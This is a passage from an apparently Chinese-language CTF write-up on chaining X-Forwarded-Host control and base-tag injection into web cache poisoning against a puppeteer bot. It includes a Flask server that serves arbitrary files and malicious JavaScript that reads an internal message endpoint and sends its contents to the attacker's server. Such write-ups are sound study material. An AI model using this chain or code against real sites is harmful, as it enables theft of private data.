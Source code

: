 这里的`req.hostname`可以通过`X-Forwarded-Host`实现可控的，但是过滤了xss。上[mdn](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/base)上看了一base标签的用法，意思是这个url可以控制html内相对路径href或者src的根url，如

![7.png](7.png)

把上面的服务串起来可以通过缓存投毒来控制puppeteer访问的html资源，然后把想要的资源传给我们的恶意服务。

## 0x04 缓存投毒

### 编写恶意服务

因为base改成了我们自己的服务，然后puppeteer访问的时候，因为base标签已经被我们修改为自己的服务了，所以会来我们的服务找js等静态资源。

那就相当于我们可以控制整个静态资源

```python
app = Flask(__name__)

# 允许跨域，不允许跨域的话是没办法像我们的服务fetch的
CORS(app)

# 访问静态资源
@app.route("/static/<file>")
def get_file(file):
    return open(file, "r").read()
```

### 构造恶意js
受害客户端会来我们的服务请求js文件，这时候我们只要让修改js，让他先去`http://127.0.0.1/message/3`，然后再发给我们就行

```js
const get_msg = () => {
    fetch("http://127.0.0.1/message/3")
    .then(response => response.json())
    .then(data => {
      msg = data.message;
      loadLetter(); // 发送message到我们的服务
    })
}

const loadLetter = () => {
  ...
  fetch(`/message/${msg}`)
  ...
  }

get_msg();
```

### 触发投毒

现在还需要差一个触发器，生成恶意静态缓存，然后让puppeteer去访问。
